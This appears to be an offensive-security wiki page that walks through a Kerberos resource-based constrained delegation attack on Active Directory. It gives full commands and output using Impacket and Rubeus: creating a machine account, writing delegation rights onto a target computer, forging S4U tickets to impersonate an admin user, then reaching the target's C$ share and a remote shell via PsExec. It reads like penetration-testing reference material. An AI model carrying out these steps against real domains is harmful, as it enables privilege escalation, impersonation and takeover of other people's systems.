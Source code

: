 ```yaml
---
title : "RBCD-attack"
# pre : ' '
description : "Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)."
date : 2021-02-17T15:54:06+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerberos Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)

Resource-Based Constrained Delegation - Generic write abuse.

## Installation

```plain
git clone https://github.com/tothi/rbcd-attack
```

### Rubeus.exe

{{%resources fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Abusing

### Create the computer object needed for the operation

```plain
$ addcomputer.py -computer-name 'RECEPTION$' -computer-pass JteYeCym2JxkH -dc-ip 10.10.10.10 offsec.nl/jane:'Welkom123!'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account RECEPTION$ with password JteYeCym2JxkH.
```

### Set rights for impersonation

```plain
$ ./rbcd.py -f RECEPTION -t WIN10-TARGET -dc-ip 10.10.10.10 offsec.nl\\jane:'Welkom123!'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against WIN10-TARGET$
[*] Initializing LDAP connection to 10.10.10.10
[*] Using offsec.nl\jane account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `RECEPTION` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `WIN10-TARGET`
[*] Delegation rights modified succesfully!
[*] RECEPTION$ can now impersonate users on WIN10-TARGET$ via S4U2Proxy
```

### Create RC4-HMAC hash for computer object

```plain
Z:\> .\Rubeus.exe hash /password:JteYeCym2JxkH /user:RECEPTION /domain:offsec.nl

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : JteYeCym2JxkH
[*] Input username             : RECEPTION
[*] Input domain               : offsec.nl
[*] Salt                       : offsec.nlRECEPTION
[*]       rc4_hmac             : C3CA46DA95A2B9CAB36C31A3202CE355
[*]       aes128_cts_hmac_sha1 : D9C29470D497E61186549BCC5517E736
[*]       aes256_cts_hmac_sha1 : C4CB81B0428A8384445C981575393BADC6F468396B44D39F166754C5A896FD8A
[*]       des_cbc_md5          : 528F4FE3A219FB6E
```

### Impersonate any user from the Active Directory

```plain
PS z:\> .\rubeus.exe s4u /user:RECEPTION$ /rc4:C3CA46DA95A2B9CAB36C31A3202CE355 /impersonateuser:JOHNDO-ADM /msdsspn:cifs/WIN10-TARGET.offsec.nl /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: C3CA46DA95A2B9CAB36C31A3202CE355
[*] Building AS-REQ (w/ preauth) for: 'offsec.nl\RECEPTION$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5jCCBO[...REDACTED...]J2aWNlcy5ubA==


[*] Action: S4U

[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2self request for: 'RECEPTION$@offsec.nl'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'JOHNDO-ADM@offsec.nl' to 'RECEPTION$@offsec.nl'
[*] base64(ticket.kirbi):

      doIJHjCCCRqgAwI[...REDACTED...]DAgEBoQgwBhsET0NEJA==

[*] Impersonating user 'JOHNDO-ADM' to target SPN 'cifs/WIN10-TARGET.offsec.nl'
[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2proxy request for service: 'cifs/WIN10-TARGET.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/WIN10-TARGET.offsec.nl':

      doIKAjCCCf6gAw[...REDACTED...]VJWSUNFUy5OTA==
[+] Ticket successfully imported!
```

### Check ticket is successfully imported

```plain
PS z:\> klist

Current LogonId is 0:0x7b698

Cached Tickets: (1)

#0>     Client: JOHNDO-ADM @ offsec.nl
        Server: cifs/WIN10-TARGET.offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40210000 -> forwardable pre_authent name_canonicalize
        Start Time: 2/17/2021 15:12:51 (local)
        End Time:   2/18/2021 1:12:51 (local)
        Renew Time: 0
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

### Browse the system using the ticket

```plain
PS z:\> dir \\WIN10-TARGET.offsec.nl\c$

    Directory: \\WIN10-TARGET.offsec.nl\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/27/2018  11:39 AM                Intel
d-----         5/23/2020   8:02 AM                PerfLogs
d-r---         8/19/2020   1:20 PM                Program Files
d-r---         7/10/2020  10:30 AM                Program Files (x86)
da----          2/4/2021   8:11 AM                Temp
d-r---         9/29/2020  10:33 AM                Users
d-----         2/17/2021   2:34 PM                Windows
```

### Run PsExec

```plain
PS z:\> PsExec.exe \\WIN10-TARGET.offsec.nl cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
offsec.nl\JOHNDO-ADM
```

## URL List

- [iRED.team - Kerberos Resource-based Constrained Delegation: Computer Object Take Over](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- [Github.com - Abusing Kerberos Resource-Based Constrained Delegation](https://github.com/tothi/rbcd-attack)
- [harmj0y.net - A case study in wagging the dog computer takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
